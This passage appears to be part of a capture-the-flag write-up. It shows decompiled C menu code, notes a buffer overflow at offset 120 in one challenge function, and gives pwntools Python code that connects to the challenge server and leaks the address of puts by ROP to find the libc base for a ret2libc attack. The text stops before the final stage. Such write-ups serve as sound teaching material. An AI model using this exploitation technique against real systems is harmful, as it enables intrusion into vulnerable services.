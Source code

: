 ```c
  else if (local_10 == 5) {
    puts("Break this well known cipher with a single-known ciphertext attack!");
    cryptochall();
  }
  else if (local_10 == 4) {
    puts("Find the flag in this memdump!");
    forenchall();
  }
  else if (local_10 == 3) {
    puts("Get the flag in this linux jail!");
    miscchall();
  }
  else {
    puts("Invalid value!");
  }
  return 0;
}
```

Only the miscchall function is useful as there is a buffer overflow with offset 120

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/54b45021-8efe-434e-b7b5-731cd0b91f8b)

This is standard ret2libc and they kindly gave us the libc file also :)

Setup the script file:

```py
from pwn import *

context.log_level = 'error'
context.arch = 'amd64'

elf = ELF('./chall')
libc = ELF('./libc.so.6')
context.binary = elf

r = remote('chal1.lagncra.sh', 8401)
r.recvuntil(b'> ')
r.sendline(b'3')
r.recvuntil(b'> ')
```

First part of the attack to get the libc base address using the puts function (used ropper to get the ret and poprdi addresses):

```py
# get libc address
rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call('main')

payload = b'A' * offset
payload += rop.chain()

r.sendline(payload)
r.recvuntil(b'\n')

puts = u64(r.recv(6).ljust(8, b'\x00'))
print(f'puts: {hex(puts)}')

ret = p64(0x000000000040101a)
poprdi = p64(0x00000000004011de)

# calculate libc base
libc.address = puts - libc.symbols['puts']
```